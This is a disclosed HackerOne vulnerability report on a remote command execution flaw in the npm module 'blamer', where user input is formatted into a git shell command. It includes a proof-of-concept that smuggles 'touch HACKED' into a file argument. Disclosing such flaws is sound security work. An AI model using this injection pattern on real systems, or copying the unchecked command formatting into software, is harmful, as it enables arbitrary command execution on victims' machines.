 # [blamer] RCE via insecure command formatting

## Report Details
- **Report ID**: 772448
- **URL**: https://hackerone.com/reports/772448
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-01-11T22:55:05.419Z
- **Disclosed**: 2020-03-10T09:38:42.363Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `blamer` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `blamer`
**version:** `0.1.13`
**npm page:** `https://www.npmjs.com/package/blamer`

## Module Description
> Blamer is a tool for get information about author of code from version control system. Supports git and subversion.

## Module Stats
[~1800] downloads in the last day
[12,910] downloads in the last week
[~52k] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/kucherenko/blamer/blob/master/src/vcs/git.js#L24

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var Blamer = require('blamer');
var blamer = new Blamer('git');
blamer.blameByFile('poc.js', 'test; touch HACKED;#');

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i blamer # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F681902}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `blamer`

## Attachments
- Screenshot_from_2020-01-11_23-50-17.png
